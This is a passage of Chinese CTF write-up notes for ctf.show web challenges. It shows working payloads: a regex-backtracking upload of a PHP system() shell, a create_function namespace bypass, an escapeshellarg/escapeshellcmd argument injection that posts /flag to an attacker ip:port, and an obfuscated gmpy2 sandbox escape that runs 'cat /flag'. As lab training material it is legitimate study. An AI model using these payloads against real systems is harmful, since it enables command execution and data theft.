 需要sleep(5184000)秒才能获得flag,

16进制绕过
`0x4f1a00`

### web684
核心代码为绕过下面的正则,函数名不能全字母数字
```php
if(preg_match('/^[a-z0-9_]*$/isD', $action)) {
    show_source(__FILE__);
```

使用`\create_function`绕过,然后[[Tricks#create_function函数注入]]即可

> 在PHP的命名空间默认为\，所有的函数和类都在\这个命名空间中，如果直接写函数名function_name()调用，调用的时候其实相当于写了一个相对路径；而如果写\function_name() 这样调用函数，则其实是写了一个绝对路径。如果你在其他namespace里调用系统类，就必须写绝对路径这种写法。


### web685
正则回溯绕过限制

```python
import requests
file={
"file":'<?php system("cat /secret_you_never_know");?>'+'a'*1000000
}
result=requests.post("http://225d3eda-6fc1-4a28-b98c-e07b5f2c25fa.challenge.ctf.show/",files=file)
print(result.content)

```

### web688
命令执行
```php
$url=escapeshellarg($url);
$url=escapeshellcmd($url);
```
> escapeshellarg和escapeshellcmd两个函数连用会产生一些问题

`url=http://ip:port/' -F file=@/flag '`

## 菜狗杯

### 算力升级
只允许`dir(gmyp2)`里的函数
gmpy2的__builtins__里有eval,拼接执行命令
```bash
gmpy2.__builtins__['erf'[0]+'div'[2]+'ai'[0]+'lcm'[0]]('c_div'[1]+'c_div'[1]+'ai'[1]+'agm'[2]+'cmp'[2]+'cos'[1]+'erf'[1]+'cot'[2]+'c_div'[1]+'c_div'[1]+"("+"'"+'cos'[1]+'cos'[2]+"'"+")"+"."+'cmp'[2]+'cos'[1]+'cmp'[2]+'erf'[0]+'jn'[1]+"("+"'"+'cmp'[0]+'ai'[0]+'cot'[2]+" "+"/"+'erf'[2]+'lcm'[0]+'ai'[0]+'agm'[1]+"'"+")"+"."+'erf'[1]+'erf'[0]+'ai'[0]+'add'[1]+"("+")")
```


